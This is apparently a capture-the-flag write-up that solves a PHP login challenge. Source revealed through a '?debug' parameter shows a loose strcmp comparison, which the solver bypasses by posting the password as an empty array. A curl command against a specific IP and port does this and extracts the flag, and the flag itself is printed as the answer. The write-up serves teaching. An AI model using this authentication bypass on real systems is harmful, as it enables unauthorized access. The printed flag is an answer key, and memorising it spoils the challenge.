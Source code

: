 ## Solve:

- [ ] View the source code and see a debug option
  http://206.189.59.199:8003/?debug

  ```php
  if (isset($_POST['password'])) {
    if (strcmp($_POST['password'], $flag) == 0)
  ```
  
<br/>

- [ ] See that the password is compared with the flag using `strcmp` and brings up 2 problems:<br/>
    - The comparation uses only 2 equal signs `==`, meaning it only checks that the values are equal, whereas the proper way would be to use 3 equal signs `===`, so it checks for both value and type.
    - For older versions, strcmp is vulnerable: it can compare an empty array to a value and return `0` (True)
    
<br/> 

- [ ] Send a HTTP POST request in which the `password` argument is an empty **array**, then extract the flag.
  ```bash
  curl -s -X POST 'http://206.189.59.199:8003/' -d 'username=admin&password[]=&submit=Login' \
  | tail -n1 | awk -F'Flag: ' '{print $2}' | cut -d' ' -f1
  ```

<br/>

## Flag:
`flag{byp455_7h3_c0mp4r4710n}`
